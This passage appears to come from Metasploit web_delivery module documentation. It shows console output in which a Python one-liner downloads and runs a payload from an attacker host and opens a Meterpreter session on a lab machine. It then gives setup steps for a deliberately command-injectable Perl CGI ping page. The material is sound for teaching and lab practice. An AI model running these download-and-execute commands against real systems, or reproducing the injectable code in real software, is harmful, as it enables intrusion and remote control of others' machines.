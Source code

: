 ```
[*] Server started.
[*] Run the following command on the target machine:
python -c "import urllib2; r = urllib2.urlopen('http://192.168.2.117:8080/DovbvqRaB'); exec(r.read());"
msf exploit(web_delivery) > sessions -i 1
[*] Starting interaction with 1...

python -c "import urllib2; r = urllib2.urlopen('http://192.168.2.117:8080/DovbvqRaB'); exec(r.read());"
[*] 192.168.2.156    web_delivery - Delivering Payload
[*] Sending stage (38500 bytes) to 192.168.2.156
[*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.156:35840) at 2017-03-05 19:59:44 -0500

^Z
Background session 1? [y/N]  y

msf exploit(web_delivery) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer     : Ubuntu14
OS           : Linux 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016
Architecture : x64
Meterpreter  : python/linux
meterpreter >
```

## Vulnerable Pages

### Perl cgi

These instructions will create a cgi environment and a vulnerable perl application for exploitation. We used Kali rolling (2016.2) for this tutorial.

#### Setup

In this example, we make a `post` form that pings a user provided IP, which is a typical funtion on many routers and is often abused a similar manner.

1. Enable cgi: `a2enmod cgid`
2. `mkdir /var/www/cgi-bin`
3. Enable folder for cgi execution: add `ScriptAlias "/cgi-bin/" "/var/www/cgi-bin/"` to `/etc/apache2/sites-enabled/000-default.conf ` inside of the `VirtualHost` tags
4. Create the vulnerable page by writing the following text to `/var/www/cgi-bin/example.pl`:

    ```
    #!/usr/bin/perl
    use CGI qw(:standard);
    $query = new CGI;
    print $query->header( -type=> "text/html"),
      $query->start_html();
    $query->import_names( 'Q' );
    if ( $Q::ip ) {
      print `ping -c 1 $Q::ip`, "<hr>";
    }
    print $query->start_form( -name=>"ping", -method=>"POST", -enctype=>&CGI::URL_ENCODED),
      $query->p("Enter IP to ping:"),
      $query->textfield(-name=>"ip"), #, -id=>"ip"),
      $query->submit(-name=>"submit"),
      $query->end_form(),
      $query->end_html();
    ```
